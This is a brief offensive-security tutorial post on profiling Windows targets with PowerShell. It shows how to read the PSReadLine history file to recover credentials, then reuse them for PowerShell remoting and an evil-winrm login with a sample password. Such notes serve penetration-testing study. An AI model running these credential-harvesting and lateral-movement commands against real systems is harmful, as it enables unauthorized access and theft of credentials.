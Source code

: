 ```yaml
---
layout: post
title: Windows Target Profiling Powershell
titledate: 09/14/23
tags: ["infosec","offsec", "privesc", "powershell", "evil-winrm"]
---
```


#### most admins clear ps history with Clear-History but leave PSReadlines untouched

using powershell to retrieve information about how it has been used can be fruitful

    PS> Get-History

the command Clear-History will earse the powershell history from being visible by Get-History, but we can retrieve the cmd history in PSReadline

    PS> (Get-PSReadlineOption).HistorySavePath

reading the txt file output for this command can possilby disclose valuable information

    PS> type C:\Users\user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

If we get credentials from the output above we may be able to start a PS remoting session

    PS> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
    PS> $cred = New-Object System.Management.Automation.PSCredential("admin", $password)
    PS> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

some commands like whoami may work inside the ps remoting session but if we are inside a nc bind shell there will likely be issues

    [CLIENTWK220]: PS C:\Users\admin\Documents> whoami

In this case we can use evil-winrm

    evil-winrm -i 192.168.50.220 -u admin -p "qwertqwertqwert123\!\!"
